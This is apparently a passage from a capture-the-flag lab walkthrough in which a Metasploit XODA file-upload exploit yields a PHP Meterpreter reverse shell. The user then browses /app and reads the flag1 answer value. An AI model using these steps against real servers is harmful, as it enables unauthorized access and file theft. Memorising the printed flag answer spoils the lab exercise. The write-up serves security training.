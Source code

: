 List the files present in present working directory of the local machine.

`README, tools, wordlists`

```
msf5 exploit(unix/webapp/xoda_file_upload) > ls -l
[*] exec: ls -l

total 12
-rw-r--r-- 1 root root  293 Feb  7  2019 README
drwxr-xr-x 1 root root 4096 May 26  2019 tools
drwxr-xr-x 2 root root 4096 Feb  7  2019 wordlists
```

Get the flag value present in /app/flag1 file.

`5c50a439f040922188a22f88cecc5277`

```
msf5 exploit(unix/webapp/xoda_file_upload) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter php/linux  www-data (33) @ victim-1  192.192.182.2:4444 -> 192.192.182.3:59022 (192.192.182.3)

msf5 exploit(unix/webapp/xoda_file_upload) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
/app/files
meterpreter > cd ..
meterpreter > pwd
/app
meterpreter > ls
Listing: /app
=============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   4096   dir   2016-02-15 10:35:00 +0000  .git
40755/rwxr-xr-x   4096   dir   2023-02-09 08:14:40 +0000  .xoda
100777/rwxrwxrwx  10273  fil   2016-02-15 10:35:00 +0000  LICENSE
100777/rwxrwxrwx  8703   fil   2018-10-05 18:41:42 +0000  README
100777/rwxrwxrwx  79     fil   2016-02-15 10:35:00 +0000  README.md
40777/rwxrwxrwx   4096   dir   2018-10-06 06:33:10 +0000  Secret Files
100777/rwxrwxrwx  1284   fil   2018-10-05 18:41:42 +0000  config.php
40777/rwxrwxrwx   4096   dir   2023-02-09 08:20:52 +0000  files
100777/rwxrwxrwx  33     fil   2018-10-06 05:13:55 +0000  flag1
100777/rwxrwxrwx  208    fil   2018-10-06 05:19:22 +0000  flag5.zip
100777/rwxrwxrwx  40563  fil   2018-10-05 18:41:42 +0000  functions.php
100777/rwxrwxrwx  57739  fil   2018-10-05 18:41:42 +0000  index.php
40777/rwxrwxrwx   4096   dir   2018-10-05 18:41:42 +0000  js
100777/rwxrwxrwx  14598  fil   2016-02-15 10:35:00 +0000  logo.png
100777/rwxrwxrwx  5265   fil   2018-10-05 18:41:42 +0000  mobile.css
100777/rwxrwxrwx  19     fil   2016-02-15 10:35:00 +0000  phpinfo.php
100777/rwxrwxrwx  5758   fil   2018-10-05 18:41:42 +0000  style.css
40777/rwxrwxrwx   4096   dir   2018-10-05 18:41:42 +0000  xd_icons
100777/rwxrwxrwx  18850  fil   2018-10-05 18:41:42 +0000  zipstream.php
meterpreter > cat flag1
5c50a439f040922188a22f88cecc5277
```
